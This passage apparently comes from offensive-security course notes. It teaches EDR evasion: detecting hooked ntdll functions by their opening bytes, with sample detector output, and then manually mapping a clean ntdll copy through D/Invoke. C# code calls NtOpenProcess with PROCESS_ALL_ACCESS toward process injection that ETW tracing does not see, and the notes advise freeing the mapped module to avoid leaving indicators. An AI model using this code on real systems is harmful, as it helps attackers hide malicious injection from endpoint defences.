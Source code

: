 If you already have code-execution capabilities on a machine running an EDR, can figure out which APIs are hooked by reading our processes memory space.  [Matt Hand](https://twitter.com/matterpreter) came up with a simple (yet elegant) approach which he published in his [HookDetector](https://github.com/matterpreter/OffensiveCSharp/blob/master/HookDetector/Program.cs) project.  It's based on the premise that the instructions for Nt APIs always start the same way:

mov r10, rcx
mov eax ...

  

We can find our functions of interest within the instance of ntdll loaded into our process, read the first 4 bytes and compare them to this known pattern.  If they don't match, we can conclude that they're hooked.  Another great "feature" is that this implementation doesn't rely on API that may itself be hooked (such as NtReadVirtualMemory).

Make sure the driver is loaded, then run the tool.  You should get output like this:

NTDLL Base Address: 0x7FFF29370000
    NtClose                   0x7FFF2940ECE0 - SAFE
    NtAllocateVirtualMemory   0x7FFF2940EE00  - HOOK DETECTED
    Instructions:             E9 D3 13 FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtAllocateVirtualMemoryEx 0x7FFF2940F9B0 - SAFE
    NtCreateThread            0x7FFF2940F4C0 - SAFE
    NtCreateThreadEx          0x7FFF29410370  - HOOK DETECTED
    Instructions:             E9 23 FF FD BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtCreateUserProcess       0x7FFF29410470 - SAFE
    NtFreeVirtualMemory       0x7FFF2940EEC0 - SAFE
    NtLoadDriver              0x7FFF29410C10 - SAFE
    NtMapViewOfSection        0x7FFF2940F000 - SAFE
    NtOpenProcess             0x7FFF2940EFC0  - HOOK DETECTED
    Instructions:             E9 B3 11 FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtProtectVirtualMemory    0x7FFF2940F500 - SAFE
    NtQueueApcThread          0x7FFF2940F3A0 - SAFE
    NtQueueApcThreadEx        0x7FFF29411830 - SAFE
    NtResumeThread            0x7FFF2940F540 - SAFE
    NtSetContextThread        0x7FFF29411D30 - SAFE
    NtSetInformationProcess   0x7FFF2940EE80 - SAFE
    NtSuspendThread           0x7FFF29412350 - SAFE
    NtUnloadDriver            0x7FFF29412490 - SAFE
    NtWriteVirtualMemory      0x7FFF2940F240  - HOOK DETECTED
    Instructions:             E9 F3 0F FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00

  

This shows that **NtAllocateVirtualMemory**, **NtCreateThreadEx,** **NtOpenProcess** and **NtWriteVirtualMemory** are hooked.  We can also see that there are also a lot of APIs that are not hooked.  A perfectly legitimate strategy would be to use a process injection technique that utilises those unhooked APIs, and just avoid the hooked ones altogether.  However, for the purposes of this lesson we're going to explicitly demonstrate how to use these hooked APIs.

  

## Manual Mapping

Use D/Invoke's **Map.MapModuleToMemory()** method to read and map a new instance of ntdll.dll into the process.  This won't stomp over the existing ntdll in memory, but rather be mapped into a new memory region.

var ntdll = Map.MapModuleToMemory(@"C:\Windows\System32\ntdll.dll");

  

If you can inspect the memory regions of the process in a debugger, you'll see that the module is allocated in a random piece of memory, not appearing to be backed by a module on disk.

![[92. Manual Mapping.png]]

Setup the parameters for calling **NtOpenProcess** and then use **Generic.CallMappedDLLModuleExport()**, passing in the mapped ntdll module, the name of the export, and the desired parameters.

var oa = new Data.Native.OBJECT_ATTRIBUTES();
var cid = new Data.Native.CLIENT_ID
{
    UniqueProcess = (IntPtr)1234
};

var hProcess = IntPtr.Zero;
var parameters = new object[]
{
    hProcess, Data.Win32.Kernel32.ProcessAccessFlags.PROCESS_ALL_ACCESS, oa, cid
};

var status = (Data.Native.NTSTATUS)Generic.CallMappedDLLModuleExport(
    _ntdllMap.PEINFO,
    _ntdllMap.ModuleBase,
    "NtOpenProcess",
    typeof(Native.DELEGATES.NtOpenProcess),
    parameters,
    false);

if (status == Data.Native.NTSTATUS.Success)
    hProcess = (IntPtr)parameters[0];

  

Do this for the remaining APIs and perform the injection as before.  You should not see any of the API calls in the ETW tracing session.

  Don't forget to call **Map.FreeModule(ntdll)** to free the mapped instance of ntdll from the process after use.  There's no need to leave it lying around and may serve as an indicator.

  

One downside is that D/Invoke needs to call some APIs such as **NtAllocateVirtualMemory** and **NtWriteVirtualMemory** in order to map the module into memory.


